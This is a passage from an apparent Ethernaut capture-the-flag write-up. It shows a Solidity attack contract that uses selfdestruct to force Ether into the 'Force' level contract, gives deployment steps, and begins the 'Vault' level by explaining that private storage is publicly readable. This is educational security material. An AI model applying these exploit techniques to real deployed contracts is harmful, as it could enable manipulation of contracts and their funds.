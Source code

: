 #### How it can be exploited

- Create a contract to exploit it:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

// attack contract
contract AttackForceContract{
    Force force;

    constructor(address _force) payable {
        force = Force(_force);
    }

//self destruct the contract and force ether transfer to the force contract
    function attack() external {
        selfdestruct(payable(address(force)));
    }

    receive() external payable {}
}
```
- Deploy the "AttackForceContract" contract and send Ether to it, through the payable constructor.
- Call the "attack" function.
- Verify that the "Force" contract now has a balance greater than zero:

```javascript
await getBalance(instance)// returns the balance of the contract's instance
```
#### My Recommendation(s)
Currently, there is no way to block Ether sent through a `selfdestruct` in Ethereum.

## Level Eight - Vault:
The goal of this level is to set the "locked" value to false.

#### The Vulnerability
The contract stores the password to unlock it as a private `bytes32` variable. However, even private variables can be read since the blockchain is public ledger.
